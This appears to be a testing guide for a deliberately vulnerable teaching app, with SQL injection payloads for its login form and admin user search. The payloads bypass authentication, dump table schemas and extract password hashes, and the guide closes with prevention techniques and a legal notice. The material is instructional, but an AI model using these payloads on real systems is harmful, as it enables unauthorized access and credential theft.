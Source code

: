 # SQL Injection Testing Guide

This document provides examples on how to test the intentional SQL Injection vulnerabilities in this application.

## Prerequisites
- The application has been set up with initial test users using `seed_database.py`
- The application is running with `python app.py`

## 1. Login Page SQL Injection

The login page at `/login` is vulnerable to SQL injection through the `username` field.

### Basic Authentication Bypass

Try these examples to bypass authentication:

1. Username: `' OR '1'='1`  
   Password: `anything`  
   **Expected result**: Login successful as the first user in the database (likely admin)

2. Username: `' OR 1=1 --`  
   Password: `anything`  
   **Expected result**: Login successful, password check bypassed

3. Username: `admin' --`  
   Password: `anything`  
   **Expected result**: Login as admin without knowing the password

### Revealing User Information

1. Username: `' UNION SELECT 1,username,email,'password',created_at FROM users --`  
   Password: `anything`  
   **Expected result**: May reveal username/email information in error messages

## 2. User Search SQL Injection

The admin user page at `/admin/users` has a search function vulnerable to SQL injection.

Try these searches to extract database information:

1. Search: `' OR '1'='1`  
   **Expected result**: Shows all users regardless of search term

2. Search: `' UNION SELECT 1, name, sql, '4', '5' FROM sqlite_master WHERE type='table' --`  
   **Expected result**: Reveals database table structure

3. Search: `' UNION SELECT 1, name, sql, '4', '5' FROM sqlite_master WHERE type='table' AND name='users' --`  
   **Expected result**: Shows structure of the users table

4. Search: `something' AND 1=0 UNION SELECT 1, username, password, '4', '5' FROM users --`  
   **Expected result**: Reveals hashed passwords

## Debugging the SQL Injection

The application has been configured to print SQL queries to the terminal. When you perform a 
SQL injection attack, check the terminal output to see the actual SQL query being executed.

## Prevention Techniques

In a real application, you would prevent SQL injection by:

1. Using parameterized queries:
   ```python
   cursor.execute('SELECT * FROM users WHERE username = ?', (username,))
   ```

2. Using an ORM (Object-Relational Mapper) like SQLAlchemy:
   ```python
   user = User.query.filter_by(username=username).first()
   ```

3. Input validation and sanitization:
   ```python
   if not re.match(r'^[a-zA-Z0-9_]+$', username):
       return "Invalid username format"
   ```

## IMPORTANT SECURITY NOTICE

This application was created SOLELY for educational purposes to demonstrate 
SQL injection vulnerabilities. NEVER use these techniques on real websites 
or applications without explicit permission, as doing so is illegal and unethical.
